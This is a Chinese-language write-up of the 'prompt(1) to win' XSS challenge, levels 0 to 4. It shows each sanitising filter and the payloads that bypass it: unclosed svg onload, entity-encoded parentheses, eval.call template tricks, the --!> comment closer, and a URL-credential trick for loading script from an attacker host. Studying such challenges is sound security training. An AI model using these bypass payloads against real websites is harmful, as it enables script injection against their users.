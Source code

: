 # prompt (1) to win

## level 0

`"><script>alert(1)</script>`

## level 1

收获:svg标签,不闭合就可以执行js



```javascript
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}   
```



`var stripTagsRE = /<\/?[^>]+>/gi;`:过滤所有<aa>形式的字符串

我炸了。。不会诶

看了wp说,只要不闭合<就可以绕过

payload:`<svg/onload=alert(1)`

## level 2

收获:在svg标签中可以用ascii码来替换字符

svg标签可以不闭合像这样:<svg/onload=prompt(1)



```javascript
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}  
```

这个会替换代码中的=和(,但是可以用ascii码绕过

由于xml编码特性。在SVG向量里面的script元素（或者其他CDATA元素 ），会先进行xml解析。因此&#x28（十六进制）或者&#40（十进制）或者&lpar；（html实体编码）会被还原成（。

```
<svg><script>prompt&#40;1)<b>
<svg><script>prompt&#40;1)</script>

```

还可以用别的函数

```javascript
<script>eval.call`${'prompt\x281)'}`</script>
<script>prompt.call`${1}`</script>
```

## level 3

```javascript
function escape(input) {
    // filter potential comment end delimiters
    input = input.replace(/->/g, '_');

    // comment the input to avoid script execution
    return '<!-- ' + input + ' -->';
}        
```

正常的注释框:<!-- --> 但是2012年后,html标签可以用--!>来闭合

## level 4

```javascript
function escape(input) {
    // make sure the script belongs to own site
    // sample script: http://prompt.ml/js/test.js
    if (/^(?:https?:)?\/\/prompt\.ml\//i.test(decodeURIComponent(input))) {
        var script = document.createElement('script');
        script.src = input;
        return script.outerHTML;
    } else {
        return 'Invalid resource.';
    }
}  
```

```
URL的完整格式协议类型:[//[访问资源需要的凭证信息@]服务器地址[:端口号]][/资源层级UNIX文件路径]文件名[?查询][#片段ID]
```

即在url中还有一个`访问凭证`字段，我们的想法是通过`@`符号，使浏览器让`prompt.ml`等内容被识别为凭证信息，从而访问我们的恶意网站，由于使用了`decodeURIComponent`函数，可以通过使用`URLencode`进行转义，被decode之后的内容还满足正则表达式，但`input`本身的`%2f`会被识别为凭证信息，所以答案应该是:

官方wp:1、这个题目是利用url的特性绕过，浏览器支持这样的url：http://user:password@attacker.com。但是http://user:password/@attacker.com是不允许的。由于这里的正则特性和decodeURIComponent函数，所以可以使用%2f绕过

